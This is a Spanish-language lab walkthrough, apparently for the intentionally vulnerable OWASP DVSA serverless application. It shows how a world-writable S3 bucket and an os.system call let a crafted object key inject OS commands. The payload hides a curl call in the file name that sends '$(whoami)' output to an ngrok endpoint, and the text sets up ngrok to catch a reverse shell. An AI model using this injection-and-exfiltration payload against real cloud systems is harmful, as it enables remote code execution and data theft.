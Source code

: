 Los permisos de este bucket son relativamente abiertos, ya que se permite cargar archivos a través de:

```
"echo "blah">file.txt && aws s3 cp file.txt 's3://<BUCKET>/2020/20/20/whatever' -acl public-read"
```

Se ha confirmado que el bucket de S3 está abierto para lectura/escritura para todos. Vamos a comprobar el código en:

```
https://github.com/OWASP/DVSA/blob/master/backend/src/functions/processing/send_receipt_email.py
```

El controlador de eventos lee el nombre, la clave y el orden del bucket y, a continuación, la función reemplaza la extensión **.raw** por **.txt** lo que significa que esperan un objeto de S3 sin procesar. A continuación, se crea una ruta de descarga y se registra en un archivo de registro mediante **os.system**

> Tengo impresiones con estos ejemplos, pero la calidad no es muy buena. Así que no voy a publicarlo

* Al igual que en el ejemplo anterior, la aplicación pasa a la función os.system algún contenido que podemos controlar ya que los permisos del bucket de S3 son débiles.
* Siguiendo la convención de nombres, la función espera que se pueda cargar y ejecutar una carga útil de inyección de comandos del sistema operativo mediante la API de AWS de S3.

**Ngrok** - https://ngrok.com/

* Ngrok se usará para exponer puertos locales a Internet y capturar un shell inverso Para este ejercicio. Visite el sitio web https://ngrok.com y registre una cuenta.
* Una vez creada la cuenta, descargue el cliente ngrok para su sistema operativo y autonídelo siguiendo las instrucciones de **conexión de la cuenta**
* Una vez configurada la cuenta, puede exponer un puerto local a Internet que ejecute **ngrok http 80** y tome nota de la dirección URL.

Las solicitudes recibidas en el puerto 80 se pueden comprobar en la interfaz web local

```
http://127.0.0.1:4040
```

* Ahora, utilizando la misma convención de nomenclatura que espera la función, se puede crear una carga útil para lograr RCE y recibir la respuesta a nuestra interfaz expuesta.

Carga útil:

```
aws s3 cp empty.txt
s3://<your bucket id>/2020/20/20/whatever_;curl XXX.grok.io?data="$(whoami)";echo x.raw -acl public-read
```

```
whatever_; # it checks For an underscore in the file name
Curl something.ngrok.io # THe ngrok endpoint to send the output
"$(whoami)"; # the command to run
Echo x.raw # needs to end in .raw to be triggered
```
